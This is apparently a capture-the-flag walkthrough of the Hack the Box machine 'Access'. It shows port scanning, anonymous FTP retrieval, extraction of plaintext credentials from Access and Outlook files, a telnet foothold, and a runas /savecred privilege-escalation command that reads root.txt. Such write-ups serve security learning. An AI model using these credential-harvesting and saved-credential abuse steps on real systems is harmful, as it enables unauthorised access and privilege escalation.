 ```yaml
---
title: Access
date: 2024-02-24 10:00
categories: [ctf, security, hacking, exploits, web application, clear credentials, anonymous access, information discolsure]
tags: [ctf, security, hacking, exploits, web application, clear credentials, anonymous access, information discolsure]
---
```


# Overview
Access is a vulnerable machine from [Hack the Box](https://www.hackthebox.com) that requires some unique enumeration and file reading, with abusing a local file on the target to read the last flag. The foothold is accomplished after some enumeration of a couple files in the ftp server, and the privilege escalation/abuse is using a file on the machine to be able to read the final flag. 

## Nmap Scan
sudo nmap -sS -Pn `10.10.10.98` -vvv

* 21/tcp open  ftp     syn-ack ttl 127
* 23/tcp open  telnet  syn-ack ttl 127
* 80/tcp open  http    syn-ack ttl 127

## Basic Enumeration
Telnet seems like the obvious choice, but permissions are configured well for this service, so we cannot access telnet right away. We will need credentials to gain access over this service. 

* FTP is the next service we want to try to gain entry. We have anonmymous login available to us, so we can see what files are there and retrieve those files. 
    * Two files, a `.mdb` and a `.pst` file. 
    * The `.pst` file is protected by a password and zipped, so we need to look through the other file to find it. 

* We can run strings against the `.mdb` file, but we get a big mess of strings, so it is not clear what we need to look for. 
    * We can get a tool called `mdbtools` to enumerate through the file. 
    * `mdb-tables` can help extract tables available to parse through in the file.
        * `mdb-tables -1 <file>`
    * Now that we have an extract list of tables to look through, we can grep for certain key words like "auth" or "pass". 
    * Another part of `mdbtools`, `mdb-json` can dump the contents of a table in a json format.
        * `mdb-json` -U backup.mdb `<table>`
```json
{"id":25,"username":"admin","password":"admin","Status":1,"last_login":"08/23/18 21:11:47","RoleID":26}
{"id":27,"username":"engineer","password":"access4u@security","Status":1,"last_login":"08/23/18 21:13:36","RoleID":26}
{"id":28,"username":"backup_admin","password":"admin","Status":1,"last_login":"08/23/18 21:14:02","RoleID":26}
```

## Foothold
Now that we have some credentials, we have tried to pass these over telnet. These don't work, but one set of creds is able to help us unpack the zip file to get access to the `.pst` file. 

* We can use `readpst` to read `.pst` files. Looking at the contents of `mbox.pst`, we see this message: 
```
Hi there,

The password for the “security” account has been changed to 4Cc3ssC0ntr0ller.  Please ensure this is passed on to your engineers.

Regards,

John
```

Before, we haven't seen an account referred to as `security`, but it may still be a valid account. Using this credential combo, we gain access to the box over telnet (`security:4Cc3ssC0ntr0ller`).

* We have `user.txt` as account `security`:

![User](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/access/Access_User.png?raw=true)

## Local Enumeration
Checking around the host, there is a unique path for us to follow. 

* Net user shows that we have users of Administrator, security, engineer, and guest on the host. 

* After running `cmdkey /list`, we see that a stored credential for the user `Administrator` and type of password `Domain Password` is available. 
    * This allows us to abuse the process `runas.exe` in order to execute a command as the `Administrator` user. We could use this to potentially try for a shell, but we can also bypass doing another shell and just try to read `root.txt`.

## Privilege Escalation
We execute this command, and get our flag: 

* `C:\Windows\System32\runas.exe /user:ACCESS\Administrator /savecred "C:\Windows\System32\cmd.exe /c TYPE C:\Users\Administrator\Desktop\root.txt > C:\Users\Security\root.txt`

![Root](https://github.com/Dathalind/dathalind.github.io/blob/main/assets/img/access/Access_Root.png?raw=true)